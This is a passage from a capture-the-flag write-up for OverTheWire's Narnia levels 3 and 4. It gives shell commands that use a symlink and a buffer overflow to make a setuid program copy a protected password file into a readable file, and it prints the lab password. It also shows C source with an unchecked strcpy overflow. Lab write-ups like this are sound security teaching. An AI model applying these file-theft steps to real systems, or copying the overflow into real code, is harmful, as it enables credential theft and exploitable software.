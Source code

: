 Awesome ! Now, we can write where we want. As **/tmp/** is read/write/exec we can create something like **/tmp/FOOBARFOOBARFOOBARFOOBARFOO/tmp** and create a *symbolic link* of **/etc/narnia_pass/narnia4** to **/tmp/FOOBARFOOBARFOOBARFOOBARFOO/tmp/ax** file so the program can write the password into our file. 

Here are the steps :

```bash
narnia3@narnia:/narnia$ mkdir -p /tmp/FOOBARFOOBARFOOBARFOOBARFOO/tmp
narnia3@narnia:/narnia$ ln -s /etc/narnia_pass/narnia4 /tmp/FOOBARFOOBARFOOBARFOOBARFOO/tmp/ax
narnia3@narnia:/narnia$ touch /tmp/ax
narnia3@narnia:/narnia$ chmod 777 /tmp/ax
narnia3@narnia:/narnia$ ./narnia3 /tmp/FOOBARFOOBARFOOBARFOOBARFOO/tmp/ax
copied contents of /tmp/FOOBARFOOBARFOOBARFOOBARFOO/tmp/ax to a safer place... (/tmp/ax)
narnia3@narnia:/narnia$ cat /tmp/ax
thaenohtai
```

It was a fun one :)

## Narnia 04 Solution

**SSH :** *ssh narnia4@narnia.labs.overthewire.org -p 2226*<br/>
**Pass :** *thaenohtai*

First, let's try to execute the program...

```bash
$ ssh narnia4@narnia.labs.overthewire.org -p 2226

narnia4@narnia:~$ cd /narnia/
narnia4@narnia:/narnia$ ./narnia4
```

Nothing... weird.

### Source Code

Let's check the source.

```c
#include <string.h>
#include <stdlib.h>
#include <stdio.h>
#include <ctype.h>

extern char **environ;

int main(int argc,char **argv){
    int i;
    char buffer[256];

    for(i = 0; environ[i] != NULL; i++)
        memset(environ[i], '\0', strlen(environ[i]));

    if(argc>1)
        strcpy(buffer,argv[1]);

    return 0;
}
```
